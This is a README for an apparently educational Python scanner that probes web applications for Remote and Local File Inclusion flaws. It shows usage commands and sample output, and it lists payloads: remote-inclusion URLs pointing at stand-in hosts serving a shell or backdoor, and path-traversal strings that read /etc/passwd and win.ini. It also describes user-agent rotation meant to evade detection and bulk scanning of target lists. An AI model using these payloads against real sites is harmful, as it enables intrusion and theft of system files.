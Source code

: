 # Modern RFI/LFI Scanner

A modernized, educational security tool for detecting Remote File Inclusion (RFI) and Local File Inclusion (LFI) vulnerabilities in web applications.

## ⚠️ IMPORTANT WARNING

**This tool is for EDUCATIONAL PURPOSES ONLY. It should only be used on systems you own or have explicit written permission to test. Unauthorized scanning of systems is illegal in many jurisdictions and may result in criminal charges.**

## Features

- **Modern Python Implementation**: Written in Python 3.8+ with async/await for better performance
- **Multiple Scan Types**: Supports both RFI and LFI vulnerability scanning
- **Concurrent Scanning**: Configurable concurrent connections for faster scanning
- **Comprehensive Reporting**: JSON and text-based reports with detailed vulnerability information
- **User Agent Rotation**: Built-in user agent rotation to avoid detection
- **Error Handling**: Robust error handling and logging
- **Rate Limiting**: Built-in rate limiting to avoid overwhelming target servers

## Installation

1. **Clone or download the repository**
2. **Install Python dependencies**:
   ```bash
   pip install -r requirements.txt
   ```

## Usage

### Basic Usage

```bash
# Scan a single URL for RFI vulnerabilities
python modern_rfi_scanner.py --url "http://example.com/page.php?id=" --type rfi

# Scan a single URL for LFI vulnerabilities
python modern_rfi_scanner.py --url "http://example.com/page.php?file=" --type lfi

# Scan multiple targets from a file
python modern_rfi_scanner.py --targets targets.txt --type rfi
```

### Advanced Usage

```bash
# Scan with custom settings
python modern_rfi_scanner.py \
    --targets targets.txt \
    --type rfi \
    --concurrent 20 \
    --timeout 15 \
    --output results.json \
    --verbose
```

### Command Line Options

- `--targets FILE`: File containing target URLs (one per line)
- `--url URL`: Single target URL to scan
- `--type {rfi,lfi}`: Type of vulnerability to scan for (default: rfi)
- `--concurrent N`: Maximum concurrent connections (default: 10)
- `--timeout N`: Request timeout in seconds (default: 10)
- `--output FILE`: Output file for results (default: scan_results.json)
- `--verbose, -v`: Enable verbose output
- `--help, -h`: Show help message

## Input File Format

Create a text file with target URLs, one per line:

```
http://example1.com/page.php?id=
http://example2.com/index.php?page=
http://example3.com/view.php?file=
```

## Output

The scanner generates two types of output:

1. **JSON Report** (`scan_results.json`): Machine-readable format with detailed scan results
2. **Console Output**: Human-readable summary and vulnerable targets

### Sample JSON Output

```json
{
  "scan_summary": {
    "total_scanned": 50,
    "vulnerable_found": 3,
    "scan_type": "RFI/LFI",
    "timestamp": "2024-01-15 14:30:25"
  },
  "vulnerable_targets": [
    {
      "url": "http://example.com/page.php?id=http://evil.com/shell.txt?",
      "payload": "http://evil.com/shell.txt?",
      "response_code": 200,
      "response_preview": "root:x:0:0:root:/root:/bin/bash...",
      "scan_time": 1.23
    }
  ]
}
```

## Security Considerations

### For Users
- Only scan systems you own or have explicit permission to test
- Be aware of local laws regarding security testing
- Use responsibly and ethically
- Consider the impact on target systems

### For System Administrators
- Implement proper input validation
- Use allowlists for file inclusion
- Enable security headers
- Regular security audits
- Monitor for suspicious activity

## Technical Details

### RFI Detection
The scanner tests for RFI vulnerabilities by:
1. Injecting remote URLs as parameters
2. Checking responses for common indicators
3. Analyzing response patterns and content

### LFI Detection
The scanner tests for LFI vulnerabilities by:
1. Injecting path traversal sequences
2. Attempting to access system files
3. Checking for sensitive file content in responses

### Payloads Used

**RFI Payloads:**
- `http://evil.com/shell.txt?`
- `http://attacker.com/backdoor.php?`
- `http://malicious.com/exploit.txt?`

**LFI Payloads:**
- `/../../../../../../../../etc/passwd`
- `/../../../../../../../../windows/win.ini`
- `/../../../../../../../../etc/hosts`

## Comparison with Original Script

| Feature | Original Perl Script | Modern Python Script |
|---------|---------------------|---------------------|
| Language | Perl | Python 3.8+ |
| Concurrency | Basic forking | Async/await |
| Error Handling | Limited | Comprehensive |
| Reporting | IRC messages | JSON + text reports |
| User Agents | Static list | Rotating system |
| Rate Limiting | None | Built-in |
| Code Quality | Monolithic | Modular OOP |
| Documentation | Minimal | Comprehensive |

## Legal and Ethical Use

This tool is provided for educational and authorized security testing purposes only. Users are responsible for:

1. Ensuring they have permission to test target systems
2. Complying with local laws and regulations
3. Using the tool responsibly and ethically
4. Not causing harm or disruption to systems

## Contributing

If you want to contribute to this project:

1. Fork the repository
2. Create a feature branch
3. Make your changes
4. Add tests if applicable
5. Submit a pull request

## License

This project is for educational use only. Please ensure you have proper authorization before using this tool on any systems.

## Disclaimer

The authors and contributors are not responsible for any misuse of this tool. Users are solely responsible for ensuring they have proper authorization and comply with applicable laws when using this software.
